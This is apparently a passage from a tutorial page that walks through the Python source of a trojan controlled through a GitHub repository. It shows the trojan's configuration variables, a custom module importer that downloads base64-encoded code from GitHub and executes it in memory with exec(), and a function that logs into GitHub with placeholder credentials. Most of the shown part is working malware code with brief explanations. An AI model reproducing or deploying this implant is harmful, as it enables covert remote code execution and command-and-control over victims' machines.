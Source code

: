 
### **2️⃣ Trojan Configuration**
```python
trojan_id = "abc"
trojan_config = "config/{}.json".format(trojan_id)
data_path = "data/{}/".format(trojan_id)
trojan_modules = []
configured = False
task_queue = queue.Queue()
```
- The **trojan ID** (`abc`) determines which configuration file to load.
- The **configuration file (`config/abc.json`)** lists modules to load.
- The **data path (`data/abc/`)** is used for storing execution results.
- The **task queue** manages module execution order.

---

### **3️⃣ GitHub-Based Module Importer**
```python
class GitImporter(object):
    def __init__(self):
        self.current_module_code = ""

    def find_module(self, fullname, path=None):
        if configured:
            print(f"[*] Attempting to retrieve {fullname}")
            new_library = get_file_contents(f"modules/{fullname}")
            if new_library:
                self.current_module_code = base64.b64decode(new_library)
                return self
        return None

    def load_module(self, name):
        module = importlib.util.module_from_spec(name)
        exec(self.current_module_code, module.__dict__)
        sys.modules[name] = module
        return module
```
- **Dynamically retrieves Python modules** from GitHub.
- **Base64 decodes and executes the code** in memory.
- **Loads retrieved modules into `sys.modules`**.

---

### **4️⃣ GitHub Connection Functions**
```python
def connect_to_github():
    gh = login(username="your username", password="your password")
    repo = gh.repository("your username", "repository name")
    branch = repo.branch("master")
    return gh, repo, branch
```
- **Logs into GitHub** using credentials (or a token).
- **Connects to a specified repository and branch**.

---